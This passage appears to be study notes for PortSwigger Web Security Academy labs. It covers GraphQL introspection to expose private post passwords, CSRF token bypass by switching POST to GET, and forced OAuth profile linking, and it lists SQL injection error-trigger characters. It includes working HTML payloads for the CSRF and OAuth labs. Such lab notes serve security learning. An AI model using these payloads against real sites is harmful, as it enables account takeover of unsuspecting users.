[Lab: Broken brute-force protection, IP block](https://portswigger.net/web-security/authentication/password-based/lab-broken-bruteforce-protection-ip-block)

#### GraphQL

##### Private GraphQL Posts

When GraphQL is used in a request, Burp automatically detects it. Right click the request > GraphQL > Set introspection query. Send the request. The GraphQL tab appears next to the Hex tab and you can modify the query and variables. Add the `postPassword` field found in a response to the introspection and the response returns the password.

[Lab: Accessing private GraphQL posts](https://portswigger.net/web-security/graphql/lab-graphql-reading-private-posts)

---

### Get admin

#### CSRF

##### Token validation depends on request method

Indicator:  
Deleting the csrf token parameter doesn't return an error when you change POST to GET.

[Lab: CSRF where token validation depends on request method](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-request-method)

Working payload for this lab:
```html
<form action="https://ID.web-security-academy.net/my-account/change-email">
<input type="hidden" name="email" value="beefbowel@example.com">
</form>
<script>document.forms[0].submit();</script>
```

##### Attaching social media profile (OAuth)

Indicator:
The website has `attach a social media profile` feature and has implemented OAuth.  
A GET request to `/auth` doesn't have `state` parameter.

Copy your authorization code for `/auth-linking` before it's used by dropping the requet. Set the payload that contains the code at the exploit server:
```html
<img src="https://0a65004a03c8bdc08047122300410025.web-security-academy.net/oauth-linking?code=YOUR_AUTHORIZATION_CODE">
```
Deliver the payload to the victim and the victim's account will be attached to your account.

[Lab: Forced OAuth profile linking](https://portswigger.net/web-security/oauth/lab-oauth-forced-oauth-profile-linking)

#### SQLi

Trigger error messages:  
| Payload | URL Encoded |
| ------- | ----------- |
| `'`     | `%27`       |
| `"`     | `%22`       |
| `#`     | `%23`       |
| `;`     | `%3B`       |
| `)`     | `%29`       |

